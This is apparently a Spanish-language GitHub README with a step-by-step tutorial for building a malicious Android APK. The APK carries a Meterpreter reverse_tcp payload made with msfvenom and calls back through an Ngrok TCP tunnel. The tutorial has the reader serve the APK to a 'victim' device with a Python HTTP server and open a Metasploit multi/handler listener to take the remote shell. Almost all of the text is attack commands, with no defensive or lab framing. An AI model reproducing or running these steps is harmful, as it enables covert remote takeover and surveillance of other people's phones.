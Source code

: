 # Video: https://youtu.be/YaxFxesD0uE


# Previamente asegurate de:
1. Descarga Ngrok [Ngrok] (https://ngrok.com/download) (imagen
2. instala desde la terminal: $ sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin (ojo con el nombre de la carpeta podria ser "Descargas" o "Downloads" segun el idioma de configuracion de tu kali)
3. Abre una cuenta gratuita en Ngrok y despues vincula tu token desde la pagina principal de Ngrok dentro de tu perfil ( imagen
4. Tener actualizado tu sistema operativo: $ sudo apt update && apt upgrade -y.
5. Descarga e instala Metasploit-Framework desde la terminal : $ sudo apt install metasploit-framework



# Tutorial
1. Abrimos una terminal como usuraio Root: $ sudo su
2. Arrancamos Metasploit-Framework: $ msfconsole (imagen
3. Desde una segunda terminal montamos un servidor tcp con Ngrok por el puerto 4646 por el cual estaremos en escucha: $ ngrok tcp 4646
4. En nuestra sesion con Metasploit creamos el payload con msfvenom para generar una conexion tcp con el siguiente comando : $  msfvenom -p android/meterpreter/reverse_tcp LHOST=(ojo porque el host nos lo proporcionara Ngrok en el apartado fowardign) al igual el LPORT=(pon atencion a laimagen proporcionada) -o msf.apk
5. Una vez hecho todo esto la aplicacion estara creada y lista para ser descargada desde nuestro equipo "victima".
6. Crearemos un servidor con python para que nuestra aplicacion sea descargada desde el equipo "atacante" al equipo "victima" : $ python3 -m http.server [puerto] (imagen



# Aplicacion
Una vez que la apliacion fue creada eh instalada con exito en el equipo "victima" pasaremos a ponernos en escucha en una nueva ventana de metasploit 
1. Iniciamos Metasploit : $ msfconsole
2. Configuramos un Listener : $ use exploit/multi/handler
3. Seteamos el mismo payload de la app maliciosa : $ set payload/meterpreter/reverse_tcp
4. Seteamos el LHOST pero con todas las conexiones entrantes (all incoming conections) : $ set LHOST 0.0.0.0
5. Seteamos el puerto de escucha que habiamos configurado antes : $ set LPORT 4646
6. Arrancamos el payload : $ exploit




